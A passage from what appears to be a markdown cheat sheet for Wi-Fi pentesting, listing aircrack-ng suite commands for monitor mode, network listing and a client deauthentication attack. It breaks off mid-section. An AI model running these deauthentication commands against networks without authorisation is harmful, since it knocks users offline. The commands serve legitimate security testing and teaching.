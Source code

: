	7.2. [Types of scanners](#72)
	
	7.3. [Spoofing](#73)

-------------------------

<br>

# <a name="1"></a>1. Basic commands


#### Set environment variable

```bash
VARIABLE=value
```

#### Check interface mode 

```bash
iwconfig $IFACE
```

#### Check interface status

```bash
ifconfig $IFACE
```

#### Set monitor mode 

```
airmon-ng check kill
ifconfig $IFACE down
iwconfig $IFACE mode monitor
ifconfig $IFACE up
```


#### List networks

1. Set monitor mode

2. Run Airodump-ng-ng

```bash
airodump-ng $IFACE -c $CHANNEL -e $ESSID
```


#### Deauthentication

1. Only one client

```bash
 aireplay-ng -0 $NUMBER_DEAUTH_PACKETS -a $AP_MAC -c $CLIENT_MAC $IFACE
```

2. An Access Point (= all the clients in the AP)
